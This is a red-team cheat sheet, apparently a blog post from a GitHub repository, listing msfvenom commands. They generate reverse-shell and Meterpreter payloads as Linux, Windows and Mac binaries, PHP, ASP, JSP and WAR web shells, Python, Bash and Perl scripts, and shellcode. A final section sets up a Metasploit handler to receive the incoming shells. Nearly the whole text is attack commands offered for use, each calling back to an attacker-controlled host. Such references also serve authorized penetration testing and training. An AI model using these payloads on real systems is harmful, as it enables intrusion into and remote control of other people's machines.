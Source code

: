 ```yaml
---
layout: post
title: MSFVenom-Payloads Cheat sheet
author: Rayzer0
category: Red Team
date: 2019-7-16
---
```

# List payloads
```perl
msfvenom -l
```
# Binaries
## Linux

```perl
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf
```
## Windows

```perl
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe
```
## Mac

```perl
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho
```

# Web Payloads
## PHP

```perl
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```
## ASP

```perl
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp
```
## JSP

```perl
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp
```
## WAR

```perl
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war
```
# Scripting Payloads
## Python

```perl
msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py
```
## Bash

```perl
msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh
```
## Perl

```perl
msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl
```
# Shellcode
>For all shellcode see ‘msfvenom –help-formats’ for information as to valid parameters. Msfvenom will output code that is able to be cut and pasted in this language for your exploits.

## Linux Based Shellcode

```perl
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
```
## Windows Based Shellcode

```perl
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
```
## Mac Based Shellcode

```perl
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
```
# Handlers

Metasploit handlers can be great at quickly setting up Metasploit to be in a position to receive your incoming shells. Handlers should be in the following format.

1. use exploit/multi/handler
2. set PAYLOAD <Payload name>
3. set LHOST <LHOST value>
4. set LPORT <LPORT value>
